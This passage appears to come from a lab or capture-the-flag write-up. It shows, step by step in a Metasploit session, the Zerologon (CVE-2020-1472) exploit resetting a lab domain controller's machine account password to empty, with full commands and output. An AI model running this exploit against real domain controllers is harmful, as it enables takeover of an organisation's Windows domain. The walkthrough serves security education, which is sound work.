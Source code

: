 
### Exploit
Initiate the `metasploit` to see if the target is exploitable or not.
If the target is vulnerable, the password will be set as empty.  

```bash
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > show options

Module options (auxiliary/admin/dcerpc/cve_2020_1472_zerologon):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   NBNAME                   yes       The server's NetBIOS name
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                    no        The netlogon RPC port (TCP)


Auxiliary action:

   Name    Description
   ----    -----------
   REMOVE  Remove the machine account password


msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set NBNAME DC01
NBNAME => DC01
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set RHOSTS 10.10.208.101
RHOSTS => 10.10.208.101
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > show options

Module options (auxiliary/admin/dcerpc/cve_2020_1472_zerologon):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   NBNAME  DC01             yes       The server's NetBIOS name
   RHOSTS  10.10.208.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                    no        The netlogon RPC port (TCP)


Auxiliary action:

   Name    Description
   ----    -----------
   REMOVE  Remove the machine account password


msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > run
[*] Running module against 10.10.208.101

[*] 10.10.208.101: - Connecting to the endpoint mapper service...
[*] 10.10.208.101:49665 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:10.10.208.101[49665] ...
[*] 10.10.208.101:49665 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:10.10.208.101[49665] ...
[+] 10.10.208.101:49665 - Successfully authenticated
[+] 10.10.208.101:49665 - Successfully set the machine account (DC01$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed

```
